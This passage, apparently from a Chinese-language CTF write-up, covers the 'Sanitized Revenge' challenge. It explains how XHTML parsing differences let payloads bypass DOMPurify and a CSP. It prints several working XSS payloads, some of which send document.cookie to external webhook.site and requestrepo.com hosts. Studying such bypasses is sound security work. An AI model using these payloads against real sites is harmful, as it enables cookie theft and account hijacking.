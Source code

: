 第一句 `Page/1` 因為第二句的 `var [Page]=[1]` 的 hoisting 所以不會發生 variable is not defined 的錯誤，而最後的 `main.js not found` 被前面的 `//` 弄成註解，因此最後就執行了中間那一段，偷到了 cookie。

這操作真的帥氣。

### Sanitized Revenge (3 solves)

這題把 unintended 修掉了，讓我們來看一下預期解。

首先這題最重要的一點在於網頁是 xhtml，而非 html，因此瀏覽器的解析方式會不同。

舉例來說，作者給的 payload：

``` html
<div>
  <div id="url">https://webhook.site/65c71cbd-c78a-4467-8a5f-0a3add03e750?</div>
  <style>
    <![CDATA[</style><div data-x="]]＞</style><iframe name='Page' /><base href='/**/+location.assign(document.all.url.textContent+document.cookie)//' /><style><!--"></div><style>--></style></div>
```

會被 HTML parser 解析為 style tag + 一個含有 `data-x` 屬性的 div，所以 DOMPurify 不會做任何事情，這是沒問題的 HTML。

但由於現在在 xhtml 底下，因此 CDATA 那一段就變成了像是註解的東西，刪除後變成：

``` html
<div>
  <div id="url">https://webhook.site/65c71cbd-c78a-4467-8a5f-0a3add03e750?</div>
  <style></style>
  <iframe name='Page' /><base href='/**/+location.assign(document.all.url.textContent+document.cookie)//' /><style><!--"></div><style>--></style></div>
```

原本在屬性裡的 iframe 跟 base 就跑了出來。

這邊會需要 base 是因為一般來說碰到 `script-src 'self'` 這種 CSP，第一直覺一定是 `<iframe srcdoc>` 搭配 script gadget 去繞，但這題因為 xhtml 的限制在屬性中不能有`<`，所以要利用之後會載入的 `report.js` 搭配 base 去改變路徑。

在[作者 writeup](https://github.com/maple3142/My-CTF-Challenges/tree/master/ImaginaryCTF%202023/Sanitized%20Revenge) 裡面還有給幾個其他人的解法，每個都滿有趣的。

第一個利用了 HTML 會忽略在 style 裡的 `<!--` 但是 xhtml 不會來創造差異：

``` html
<body>
<style>a { color: <!--}</style>
<img alt="--></style><base href='/(document.location=/http:/.source.concat(String.fromCharCode(47)).concat(String.fromCharCode(47)).concat(/cb6c5dql.requestrepo.com/.source).concat(String.fromCharCode(47)).concat(document.cookie));var[Page]=[1]//x/' />">
</body>
```

第二個則是 DOMPurify 在偵測 mXSS 時會檢查 valid HTML tag，需要是 ASCII alphanumeric，但是 XML 其實允許更多字元：

``` html
a<style><ø:base id="giotino" xmlns:ø="http://www.w3.org/1999/xhtml" href="/**/=1;alert(document.cookie);//" /></style>
```

所以在 HTML context 底下是沒問題的，但是在 xhtml 還是會被解析為是 base tag。
